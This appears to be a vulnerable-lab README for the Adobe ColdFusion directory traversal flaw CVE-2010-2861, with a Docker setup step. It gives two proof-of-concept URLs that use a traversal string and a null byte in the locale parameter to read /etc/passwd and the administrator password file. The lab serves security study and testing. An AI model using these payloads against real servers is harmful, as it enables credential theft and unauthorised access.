

# Adobe ColdFusion Directory Traversal Vulnerability (CVE-2010-2861)

[中文版本(Chinese version)](README.zh-cn.md)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

There is a directory traversal vulnerability in the Adobe ColdFusion 9.0.1 and earlier, which allow remote attackers to read arbitrary files via the locale parameter to (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2eepackaging/editarchive.cfm, and (5) enter.cfm in CFIDE/administrator/.

## Environment setup

Execute the following command to start Adobe CouldFusion 8.0.1 server:

```
docker-compose up -d
```

The server startup may take 1~5 minutes. After that, visit `http://your-ip:8500/CFIDE/administrator/enter.cfm` to see the initialization page, enter the password `admin` to initialize the entire server.

## POC

Read the file `/etc/passwd` via `http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`:



Read the background administrator password via `http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/ password.properties%00en`:


